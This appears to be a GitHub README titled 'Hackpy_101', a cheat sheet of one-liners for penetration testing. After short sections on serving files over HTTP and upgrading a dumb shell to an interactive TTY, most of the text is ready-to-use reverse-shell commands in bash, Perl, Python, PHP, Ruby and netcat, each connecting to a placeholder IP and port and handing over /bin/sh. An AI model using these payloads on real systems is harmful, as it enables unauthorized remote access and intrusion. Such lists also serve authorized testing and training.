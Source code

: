# Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shell in Python
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise\ 

**In reverse shell**
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z\
**In Kali**
$ stty raw -echo
$ fg\

**In reverse shell**
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.\
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"\
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**\
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT


